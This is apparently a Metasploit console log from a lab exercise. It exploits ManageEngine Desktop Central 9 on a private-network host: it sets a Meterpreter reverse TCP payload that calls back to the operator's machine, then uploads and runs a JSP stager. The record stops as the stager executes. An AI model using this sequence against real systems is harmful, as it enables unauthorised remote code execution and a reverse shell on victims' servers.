 ```msf6 exploit(windows/http/manageengine_connectionid_write) > options
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ManageEngine Desktop Central 9 on Windows



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/manageengine_connectionid_write) > set payload windows/
Display all 213 possibilities? (y or n)
msf6 exploit(windows/http/manageengine_connectionid_write) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/manageengine_connectionid_write) > set rhost 10.0.2.4
rhost => 10.0.2.4
msf6 exploit(windows/http/manageengine_connectionid_write) > options

Module options (exploit/windows/http/manageengine_connectionid_write):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.2.4         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8020             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path for ManageEngine Desktop Central
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.5         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ManageEngine Desktop Central 9 on Windows



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/manageengine_connectionid_write) > set exitfunc thread
exitfunc => thread
msf6 exploit(windows/http/manageengine_connectionid_write) > exploit

[*] Started reverse TCP handler on 10.0.2.5:4444 
[*] Creating JSP stager
[*] Uploading JSP stager zrlov.jsp...
[*] Executing stager...
```